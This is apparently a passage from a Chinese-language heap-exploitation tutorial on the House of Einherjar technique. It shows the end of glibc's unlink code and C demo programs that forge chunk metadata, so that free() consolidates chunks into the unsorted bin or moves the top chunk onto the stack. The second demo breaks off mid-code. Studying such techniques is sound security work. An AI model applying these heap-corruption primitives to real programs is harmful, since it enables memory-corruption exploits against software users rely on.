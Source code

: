 ```c
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}

```



#### 演示程序1

合并放入unsorted bin

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
	long long int *s0 = (long long int *)malloc(0x200);
	long long int *s1 = (long long int *)malloc(0x18);
	long long int *s2 = (long long int *)malloc(0xf0);
	long long int *s3 = (long long int *)malloc(0x20);
	s0[0] = 0;
	s0[1] = 0x81;
	s0[2] = (long long int)s0;
	s0[3] = (long long int)s0;
	s0[16] = 0x80;
	s1[2] = 0x220;
	s2[-1] = 0x100;
	free(s2);
	return 0;
}
```



free(s2)前各个堆上的伪造情况

![在这里插入图片描述](/picture/heap_related/House of Einherjar/1.png)

结果s0（部分）,s1,s2合并放入unsorted bin中

![](/picture/heap_related/House of Einherjar/2.png)

#### 演示程序2

合并融入top chunk（top chunk地址变成栈上地址，堆上也依然ok）

这里s1大小属于large bin范围也可以

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(){
	long long int stack_chunk[6];
	long long int *s0 = (long long int *)malloc(0x100);
	long long int *s1 = (long long int *)malloc(0x200);
	s1[-2] = (long long int)&s1[-2]-(long long int)&stack_chunk;
	s1[-1] = 0x210;	
	stack_chunk[0] = 0;
	stack_chunk[1] = s1[-2];
	stack_chunk[2] = (long long int)&stack_chunk;
	stack_chunk[3] = (long long int)&stack_chunk;
	stack_chunk[4] = (long long int)&stack_chunk;
	stack_chunk[5] = (long long int)&stack_chunk;
```